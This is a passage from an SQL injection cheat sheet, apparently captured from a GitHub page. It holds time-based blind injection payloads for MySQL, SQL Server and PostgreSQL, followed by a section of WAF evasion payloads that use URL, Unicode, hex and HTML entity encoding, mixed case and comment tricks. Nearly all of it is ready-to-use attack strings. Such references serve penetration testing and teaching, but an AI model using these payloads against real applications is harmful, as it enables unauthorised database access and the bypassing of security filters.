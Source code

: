 #### Conditional Statements
```sql
-- MySQL
' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--

-- SQL Server
' AND IF((SELECT COUNT(*) FROM users)>0) WAITFOR DELAY '00:00:05'--

-- PostgreSQL
' AND (SELECT CASE WHEN COUNT(*)>0 THEN pg_sleep(5) ELSE 0 END FROM users)::int--
```

---

## Advanced SQL Injection Techniques

### WAF Evasion Techniques

#### 1. Encoding and Obfuscation
```sql
-- URL encoding
%27%20OR%201=1--

-- Double URL encoding
%2527%2520OR%25201=1--

-- Unicode encoding
\u0027 OR 1=1--

-- Hex encoding
0x27204f5220313d312d2d

-- HTML entity encoding
&#x27; OR 1=1--
```

#### 2. Case Variation
```sql
-- Mixed case
' Or 1=1--
' oR 1=1--
' UnIoN sElEcT--
```

#### 3. Comment Variations
```sql
-- MySQL comments
'/**/OR/**/1=1--
'/*!OR*/1=1--
'/*! OR */1=1--

-- Multiple comment styles
'--+OR+1=1--
'#OR 1=1#
'/*OR 1=1*/--
```

